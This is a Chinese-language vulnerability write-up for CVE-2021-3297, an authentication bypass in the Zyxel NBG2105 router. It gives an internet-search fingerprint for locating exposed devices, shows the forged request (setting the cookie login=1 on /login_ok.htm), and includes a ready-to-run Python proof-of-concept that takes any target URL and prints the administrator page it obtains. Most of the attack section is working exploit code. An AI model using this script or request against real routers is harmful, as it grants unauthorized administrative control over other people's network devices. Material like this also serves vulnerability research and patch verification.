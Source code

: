 # Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

参考阅读：

- https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass


## 漏洞影响

```
Zyxel NBG2105
```

## 网络测绘

```
app="ZyXEL-NBG2105"
```

## 漏洞复现

登录页面如下

![](images/202202140930455.png)

其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验

![](images/202202140930281.png)

可以看到检测到 Cookie中的 **login=1** 则跳转 home.html

```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```

请求如下则会以管理员身份跳转到 **home.htm页面**

```plain
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```

![](images/202202140931038.png)

## 漏洞POC

```
# python3
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning


def poc(url):
    exp = url + "/login_ok.htm"

    header = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cookie":"login=1",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=exp, headers=header, verify=False,timeout=10)
        #print(response.text)
        if response.status_code == 200 and "GMT" in response.text:
            print(exp + " 存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
            print("数据信息如下：")
            print(response.text)
        else:
            print(exp + " 不存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
    except Exception as e:
        print(exp + "请求失败！！")


def main():
    url = str(input("请输入目标url："))
    poc(url)


if __name__ == "__main__":
    main()
```


